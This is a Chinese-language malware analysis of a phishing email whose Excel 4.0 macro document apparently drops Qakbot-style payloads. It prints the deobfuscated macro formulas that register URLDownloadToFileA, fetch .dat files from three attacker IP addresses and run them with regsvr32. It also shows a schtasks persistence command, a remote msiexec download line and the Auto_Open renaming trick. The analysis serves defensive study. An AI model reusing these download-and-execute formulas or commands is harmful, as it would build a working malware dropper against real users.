

近期有同事反映疑似收到了钓鱼邮件。发件人也是公司同事的名字，但发件邮箱 ```comercial1@qualitypro.com.co```不是公司的邮箱，正文转发了之前的邮件信息，在最上面添加了一个下载附件的链接。


查询邮箱注册名在国外，被情报网站标记为恶意。首次发现时间为2018年，在02-21 也就是同事收到邮件的当天，情报信息被更新了，看来是一次有准备的大规模的钓鱼攻击。


ip下域名绑定1000+，


ip下有很多官方证书，此ip为肉鸡。


发件邮箱在google搜索为哥伦比亚的一家除虫公司，应该也是之前被钓鱼的肉鸡。

复制下载链接```hXXp://satarabazar.com/run/5rihx330L1.zip```下载邮件。

内容是诱导用户启用宏。语言是英语，猜测主要是针对国外公司APT攻击。

## office 分析


取消隐藏：


里面有13个隐藏的tab:


这里被折叠了：


展开，把字体设置成黑色(APT惯用伎俩白底白字)


### EXCEL 4.0 语法

与 VBA 宏相比，XLM 宏以完全不同的方式存储在 Excel 文件中。在较新的 .xlsm Excel 文件格式（基于 XML 的 ZIP 容器）中，XLM 宏表存储在子目录“macrosheets”下的 XML 文件中，隐蔽性更好。

虚拟机打开，

excel单元格 右键 点击执行 -> 单步执行 -> 求值。




注意查看完“求值”后要点击“中止”将程序中断，否则会继续执行恶意代码。

```=REGISTER(D21,Hertip&"FileA",Tiposa!D20,D23,,Tiposa!D22,Tiposa!D23)```

	=REGISTER("uRlMon","URLDownloadToFileA","JJCCBB","Drwrgdfghfhf",,1,9)

```=Drwrgdfghfhf(0,"h"&"t"&"tp"&":"&"/"&"/"&Tiposa!E21&Tiposa1!G11&Sheet2!K12,Tiposa1!E14&"a\Hroser1.ocx",0,0)```

```=Drwrgdfghfhf(0,"http://Tiposa!E21&Tiposa1!G11&".dat","C:\ProgramData\Hroser1.ocx",0,0)```

```Tiposa!E21=94.140.114.240/```

对于 ```=REGISTER("uRlMon","URLDownloadToFileA","JJCCBB","Drwrgdfghfhf",,1,9)``` ，

	
	REGISTER(module_name, procedure_name, type, alias, argument, macro_type, category)
	
	Module_name is the name of the DLL, for example "uRlMon" for C:\Windows\System32\urlmon.dll.
	Procedure_name is the name of the exported function in the DLL, for example "URLDownloadToFileA".
	Type is a string specifying the types of return value and arguments of the functions. More on this below（微软Excel4.0数据类型描述）.
	Alias is a custom name that you can give to the function, by which you can call it later.
	Argument can be used to name the arguments to the function, but is optional (and left blank in our code).
	Macro_type should be 1, which stands for function.
	Category is a category number (used in ancient Excel functionality). We can specify an arbitrary category number between 1 and 14 for our purpose.

[微软Excel4.0数据类型描述](https://support.microsoft.com/en-us/office/using-the-call-and-register-functions-06fa83c1-2869-4a89-b665-7e63d188307f?ui=en-us&rs=en-us&ad=us#__toc309221612)

The biggest challenge of getting Win32 API functions to work with XLM macros is matching the types that are expected by the Win32 API functions with available Excel 4.0 data types. 根据官网文档，"JJCCBB" 可能表示 the return value for this function is long int ("J"), long int , string ("C"), string ("C"), double , double respectively.

上面的一句话含义为 自定义一个函数名，调用系统自带的dll的导出函数的功能，可以调用的功能很多，自由发挥，例如 ```kernel32.VirtualAlloc``` 或 ```kernel32.WriteProcessMemory```、```kernel32.CreateThread``` 等。


Tiposa1!G11=NOW()

	=Drwrgdfghfhf(0,"http://94.140.114.240/"NOW()".dat","C:\ProgramData\Hroser1.ocx",0,0)

	=Drwrgdfghfhf(0,"http://194.156.98.30/"NOW()".dat","C:\ProgramData\Hroser2.ocx",0,0)

	=Drwrgdfghfhf(0,"http://144.217.50.246/"NOW()".dat","C:\ProgramData\Hroser3.ocx",0,0)

即

	=uRlMon.URLDownloadToFileA(0,"http://94.140.114.240/44617.771099537036.dat","C:\ProgramData\Hroser1.ocx",0,0)


与时间戳绑定，而且网站经常不能下载。也有可能是验证了UA头为office，或者主要针对国外。

https://s.threatbook.cn/report/file/9891ad11b3a5e308f6ef9b63c9bf2c177a0f6b958752ba7a81d5ca878c376303/?env=win7_sp1_enx64_office2013


=EXEC(E19&"vr32  "&E14&"a\"&E23)

	=EXEC("regsvr32  C:\ProgramData\Hroser1.ocx")

=EXEC(Tiposa1!E19&"vr32 "&Tiposa1!E14&"a\Hroser2.ocx")

	=EXEC("regsvr32  C:\ProgramData\Hroser2.ocx")
	
	=EXEC("regsvr32  C:\ProgramData\Hroser3.ocx")

	=RETURN()

使用[office4.0 反混淆神器](https://github.com/DissectMalware/XLMMacroDeobfuscator) (支持pip安装) 进行反混淆：


### Excel 4.0 常用函数

=REGISTER() 

	注册一个DLL或代码资源中的函数，然后此函数就可以被 Excel 4.0 宏语言调用。
	
	https://blog.csdn.net/weixin_30266885/article/details/98029937

=NOW()

	获取当前时间戳

=EXEC()

	执行

=T()

	eg：=T(re&gs)
	
	T函数的功能
	判断引用值是否为文字；
	如果引用了文字，则返回文字；
	如果未引用文字，函数结果为空；

Regsvr32命令用于注册COM组件，是Windows系统提供的用来向系统注册控件或者卸载控件的命令，以命令行方式运行。
WinXP及以上系统的regsvr32.exe在windows\system32文件夹下；2000系统的regsvr32.exe在winnt\system32文件夹下。


## 恶意控件本地行为分析

```Hroser1.ocx```进行的操作：

进程注入：

	NtMapViewOfSection：https://blog.csdn.net/hgy413/article/details/7799843

计划任务&注册一个控件(DLL)：

	"C:\Windows\system32\schtasks.exe" /Create /RU "NT AUTHORITY\SYSTEM" /tn okmwpgcpv /tr "regsvr32.exe -s \"C:\tmpd4x3ai\44614.671408912.dat.dll\"" /SC ONCE /Z /ST 01:02 /ET 01:14

枚举进程模块(CreateToolhelp32Snapshot)，查找指定进程名：

	potential cuckoo sandbox detection

sleep:

	explorer.exe  tried to sleep 411.043 seconds

信息搜集：

查询计算机名(GetComputerNameW)，获取系统信息(GetSystemInfo)，查询系统用户名(GetUserNameA),读取计算机名称(```HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Control\ComputerName\ActiveComputerName\ComputerName```),

## 某步分析结果

c375c83c189acf6199d36980377483f8

```https://s.threatbook.cn/report/file/51971b4fbec74c2694c93d1d0995dd244248a055986988758ece3d056e676984/?env=win7_sp1_enx86_office2013```

4b3d3146d7d6ad9396233f791ff050e4

```https://s.threatbook.cn/report/file/9891ad11b3a5e308f6ef9b63c9bf2c177a0f6b958752ba7a81d5ca878c376303/?env=win7_sp1_enx64_office2013```

## reference

https://blog.didierstevens.com/programs/oledump-py/

```http://didierstevens.com/files/software/oledump_V0_0_63.zip```

[office4.0 反混淆神器](https://github.com/DissectMalware/XLMMacroDeobfuscator)

[如何注册ocx文件](https://jingyan.baidu.com/article/c910274bfea203cd361d2db9.html)

[Old school: evil Excel 4.0 macros (XLM)](https://outflank.nl/blog/2018/10/06/old-school-evil-excel-4-0-macros-xlm/)

[微软公布 Qakbot 家族恶意程序攻击链，模块化构建带来新挑战](https://zhuanlan.zhihu.com/p/448136766)

```https://tria.ge/s/family:qakbot```

[Evolution of Excel 4.0 Macro Weaponization](https://www.lastline.com/labsblog/evolution-of-excel-4-0-macro-weaponization/)

[如何启用宏_Excel 4.0宏武器化的演变--（上文翻译）](https://blog.csdn.net/weixin_33308985/article/details/112721063)

## 后记

windows 下载工具补充，

	msiexec /q /I http://ip/download/file.pdf

打开**名称管理器**


将其命名为```Auto_Open22222```，而不是用于自动执行有效负载的典型```Auto_Open```名称，它仍然作为正常的```Auto_Open```例程执行。


```Auto_Open``` bind 的单元格最先执行，之后的执行顺序是```Auto_open``` 指向单元格所在列后面的单元格，例如，上图指向A4，接下来从A5开始执行，直到此列完全执行完毕。

